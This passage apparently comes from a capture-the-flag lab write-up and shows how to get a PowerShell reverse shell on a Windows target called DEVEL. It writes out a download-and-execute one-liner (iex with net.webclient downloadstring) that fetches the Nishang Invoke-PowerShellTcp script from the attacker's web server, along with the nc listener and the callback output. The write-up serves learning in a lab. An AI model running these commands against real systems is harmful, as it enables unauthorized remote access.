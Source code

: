     
    
    .PARAMETER Port
    The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
    
    .EXAMPLE
    PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
    

I’ll copy that line, and go to the bottom of the file, and paste it in, and
modify it to match my IP/port:

    
    
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443
    

This will make it so that not only does the module load, but then the shell is
called to give me a callback.

Finally, inside that directory I’ll start my webserver using `python`, with
`python3 -m http.server 80`, and start my listener with `nc -lnvp 443`.

Now I’m ready to get a shell. In my webshell, I’ll enter the following:

    
    
    powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')
    

This will create a webclient object, and use the download string method to get
the text that is returned from the given url. That text is passed into `iex`,
which runs it.

The webserver gets a request for `Invoke-PowerShellTcp.ps1`:

    
    
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.5 - - [22/Feb/2019 16:28:17] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
    

Then `nc` gets a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.5.
    Ncat: Connection from 10.10.10.5:49166.
    Windows PowerShell running as user DEVEL$ on DEVEL
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\windows\system32\inetsrv>
    

There are pluses and minus to this shell. It’s a nice PowerShell environment,
and it’s lightweight. However, it’s not able to run some things, for example,
the exploit binary that I’ll demonstrate below.

#### meterpreter
